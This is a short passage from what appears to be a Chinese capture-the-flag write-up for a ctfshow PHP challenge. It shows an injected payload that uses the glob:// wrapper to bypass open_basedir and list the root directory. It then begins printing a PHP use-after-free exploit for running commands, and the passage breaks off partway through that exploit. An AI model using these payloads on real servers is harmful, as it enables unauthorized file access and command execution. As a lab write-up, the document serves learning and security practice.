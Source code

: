 ```cobol
}else{
    highlight_file(__FILE__);
}
 
?>
 
你要上天吗？
```

这里遇到了open_basedr的限制

 [绕过 open_basedir_双层小牛堡的博客-CSDN博客](https://blog.csdn.net/m0_64180167/article/details/132140858?spm=1001.2014.3001.5501) 

学习完后来测试这个题目

通过 glob协议配合函数接口绕过 open_basedir 然后再绕过 缓冲区清零清理

```php
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);?>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d244896bf6a9276c748b751d4cb32f74.png" alt="" style="max-height:170px; box-sizing:content-box;" />


绕过了 并且打印了 根目录的内容 那么我们 看看能不能访问



对于uaf 了解很少  应该是pwn的内容

```cobol
<?php
 
function ctfshow($cmd) {
    global $abc, $helper, $backtrace;
 
    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }
 
    class Helper {
        public $a, $b, $c, $d;
    }
 
    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }
 
    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
```